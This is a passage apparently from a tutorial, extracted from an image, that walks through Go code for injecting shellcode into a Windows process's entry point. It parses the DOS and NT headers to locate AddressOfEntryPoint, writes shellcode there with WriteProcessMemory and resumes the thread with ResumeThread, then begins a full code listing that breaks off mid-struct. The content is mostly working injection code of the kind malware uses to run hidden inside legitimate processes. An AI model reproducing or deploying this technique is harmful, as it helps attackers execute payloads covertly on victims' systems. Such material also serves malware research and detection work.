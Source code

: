 To be able to calculate the entry point address, we need to parse the DOS header and NT header (some structs are defined but I omit them for brevity, you can check them out on final code)

```go
// Parse DOS header e_lfanew entry to calculate entry point address
var dosHeader IMAGE_DOS_HEADER
dosHeader.E_lfanew = binary.LittleEndian.Uint32(headersBuffer[60:64])
ntHeader := (*IMAGE_NT_HEADER)(unsafe.Pointer(uintptr(unsafe.Pointer(&headersBuffer[0])) + uintptr(dosHeader.E_lfanew)))
codeEntry := uintptr(ntHeader.OptionalHeader.AddressOfEntryPoint) + imageBase
```

And finally we use ***WriteProcessMemory*** and ***ResumeThread*** to write shellcode to entry point address and resume process thread

```go
fmt.Println("\n[*] Calling WriteProcessMemory...")
WriteProcessMemory.Call(
  uintptr(pi.Process),
  codeEntry, // write shellcode to entry point
  uintptr(unsafe.Pointer(&shellcode[0])),
  uintptr(len(shellcode)),
  0,
)

fmt.Println("[*] Calling ResumeThread...") // finally resume thread
ResumeThread.Call(uintptr(pi.Thread))
```


So the final code is something like this:

```go
package main

import (
  "fmt"
  "log"
  "unsafe"
  "syscall"
  "encoding/binary"
  "golang.org/x/sys/windows"
)

type IMAGE_DOS_HEADER struct { // DOS .EXE header
  /*E_magic    uint16     // Magic number
  E_cblp     uint16     // Bytes on last page of file
  E_cp       uint16     // Pages in file
  E_crlc     uint16     // Relocations
  E_cparhdr  uint16     // Size of header in paragraphs
  E_minalloc uint16     // Minimum extra paragraphs needed
  E_maxalloc uint16     // Maximum extra paragraphs needed
  E_ss       uint16     // Initial (relative) SS value
  E_sp       uint16     // Initial SP value
  E_csum     uint16     // Checksum
  E_ip       uint16     // Initial IP value
  E_cs       uint16     // Initial (relative) CS value
  E_lfarlc   uint16     // File address of relocation table
  E_ovno     uint16     // Overlay number
  E_res      [4]uint16  // Reserved words
  E_oemid    uint16     // OEM identifier (for E_oeminfo)
  E_oeminfo  uint16     // OEM information; E_oemid specific
  E_res2     [10]uint16 // Reserved words*/
  E_lfanew   uint32     // File address of new exe header
}

type IMAGE_NT_HEADER struct {
```